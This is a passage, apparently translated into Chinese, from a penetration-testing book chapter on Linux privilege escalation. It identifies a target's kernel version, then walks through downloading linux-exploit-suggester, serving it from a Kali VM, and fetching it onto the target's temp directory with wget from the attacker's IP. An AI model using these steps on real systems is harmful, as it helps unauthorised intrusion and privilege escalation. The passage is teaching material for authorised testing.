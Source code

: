 在这种情况下，我们的目标系统运行的是 Ubuntu 16.04 LTS，内核版本为 4.4.0-21。我们可以利用这些信息来识别影响此版本内核的特定漏洞。发行版 ID、版本号和代号也非常重要，因为某些内核漏洞是专门为特定的 Linux 发行版设计的。

**linPEAS** 脚本没有提供任何潜在的内核漏洞，可以用于提升我们的权限。因此，我们必须使用其他枚举脚本。

注意

**linPEAS** 脚本列举了许多有用的信息，这些信息将在本书的后续章节中非常有用，尤其是在我们深入探讨其他 Linux 提权技巧时。

## 枚举内核漏洞

我们可以使用**linux-exploit-suggester**来枚举我们的系统信息并扫描潜在的内核漏洞。**linux-exploit-suggester**脚本可以从[`github.com/mzet-/linux-exploit-suggester`](https://github.com/mzet-/linux-exploit-suggester)下载。

建议下载脚本并将其重命名为更简单的文件名。可以通过运行以下命令来实现自动化：

wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

下载脚本后，我们需要将其传输到目标系统。可以按照以下步骤进行操作：

1.  为了在 Kali 虚拟机上搭建一个 Web 服务器，我们可以利用**SimpleHTTPServer** Python 模块来提供二进制文件。可以通过在存储**les.sh**脚本的目录中运行以下命令来完成此操作：

    **sudo python -m SimpleHTTPServer 80**

1.  要在目标系统上下载**les.sh**脚本，我们可以使用**wget**工具。然而，在下载二进制文件之前，我们需要导航到一个具有读写权限的目录。在这种情况下，我们将导航到临时目录，如以下截图所示：![图 10.14 – Linux 临时目录    ](img/B17389_10_014.jpg)

    图 10.14 – Linux 临时目录

    现在我们可以使用**wget**工具将文件从 Kali 虚拟机下载到目标系统。可以通过在目标系统上运行以下命令来完成此操作：

    **wget http://<KALI-VM-IP>/les.sh**

    输出显示在以下截图中：

    ![图 10.15 – wget 成功传输    ](img/B17389_10_015.jpg)
